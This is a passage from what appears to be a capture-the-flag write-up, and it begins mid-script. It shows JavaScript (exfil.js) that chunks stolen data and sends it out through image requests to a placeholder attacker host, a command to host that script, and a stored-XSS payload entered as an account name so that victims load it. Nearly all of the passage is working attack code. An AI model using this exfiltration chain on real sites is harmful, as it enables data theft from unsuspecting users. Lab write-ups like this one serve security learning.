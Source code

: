 ```bash

				// Try to async load the image, whose name is the string of data
				downloadImage.src = "http://<your-ip-address>:<listener-port>/exfil/" + i + "/" + exfilChunk + ".jpg";
			}

			// Now grab that last bit
			var exfilChunk = exfilData.slice(exfilChunkSize * numFullChunks, (exfilChunkSize * numFullChunks) + remainderBits);
			var downloadImage = new Image();
			downloadImage.onload = function()
			{
    			image.src = this.src;   
			};

			downloadImage.src = "http://<your-ip-address>:<listener-port>/exfil/" + "LAST" + "/" + exfilChunk + ".jpg";
			console.log("Done exfiling chunks..");
		}
	}
}



stealData();
```
* Starting a web server to host our file, and don't forget to add your ip addresse into the ``exfil.js`` file.

```bash
python3 -m http.server 8000
```

* Now we have to create a new account with ``<script src=http://<your-ip-address>:<listener-port>/exfil.js></script>``

![whyhackme12](/images/whyhackme12.png)
